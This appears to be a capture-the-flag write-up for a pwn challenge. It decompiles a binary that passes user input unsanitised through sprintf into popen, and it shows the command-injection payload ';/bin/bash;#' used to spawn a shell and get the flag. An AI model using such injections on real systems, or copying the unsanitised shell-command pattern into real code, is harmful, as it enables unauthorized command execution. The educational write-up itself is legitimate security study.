


[PWN] UNCRACKABLE - 666 pts.
We’re given this file:

Let’s analyze this with Ghidra. Here is the decompiled main:
void main(void)
{
int iVar1;
char local_459;
char local_458 [1040];
undefined local_48 [47];
char local_19;
char *local_18;
FILE *local_10;
setvbuf(stdout,(char *)0x0,2,0);
__isoc99_scanf(&DAT_00102008,local_48);
sprintf(&local_459,"echo -n \'%s\'|md5sum",local_48);
local_10 = popen(&local_459,"r");
if (local_10 == (FILE *)0x0) {
puts("Failed to run command");
/* WARNING: Subroutine does not return */
exit(1);
}
fgets(local_458,0x21,local_10);
local_18 = "3b9aafa12aceeccd29a154766194a964";
iVar1 = memcmp(local_458,"3b9aafa12aceeccd29a154766194a964",0x20);
local_19 = (char)iVar1;
if (local_19 == '\0') {
system("cat flag");
}
else {
puts("not good enough");
}
return;
}
Our task here to cat the flag is to give an input string that when we get its md5 it should be equal to “3b9aafa12aceeccd29a154766194a964”. Thinking to the perspective of this challenge, cracking the hash is out of the question. So how can we exploit this?
The vulnerability
Our input is directly inserted to the sprintf without proper sanitation. We can inject bash code in there.
(Note: Since the challenge server is not up at the time this is written, we will use our own machine as the challenge server.)
Let’s run the challenge locally and create a test flag:

Exploitation
This is the original string:
"echo -n \'%s\'|md5sum"
This is our exploit string:
';/bin/bash;#
And this is going to be the final string:
"echo -n \'\';/bin/bash;#|md5sum;
# - this is to comment out md5sum
It worked! The challenge server tried to execute “aaaaaaaaaa” but there is no such command exist. However when a legitimate command is used, “not good enough” is printed instead of supposed output of the respective command.

This is because the output from STDOUT is being passed to the variable local_458 instead of printing it. After that, the output is compared to the hard coded hash that’s why “not good enough” is printed.
...
sprintf(&local_459,"echo -n \'%s\'|md5sum",local_48);
local_10 = popen(&local_459,"r");
if (local_10 == (FILE *)0x0) {
puts("Failed to run command");
/* WARNING: Subroutine does not return */
exit(1);
}
fgets(local_458,0x21,local_10);
local_18 = "3b9aafa12aceeccd29a154766194a964";
iVar1 = memcmp(local_458,"3b9aafa12aceeccd29a154766194a964",0x20);
...
However, if we print the hash itself using the echo command, it should work.

All we have to do is to connect to the original challenge server and redo what we have done and we should be able to get the flag.
Flag: securinets{memcmp_turned_out_to_be_shame_shame_shame!!}
Thank you for reading!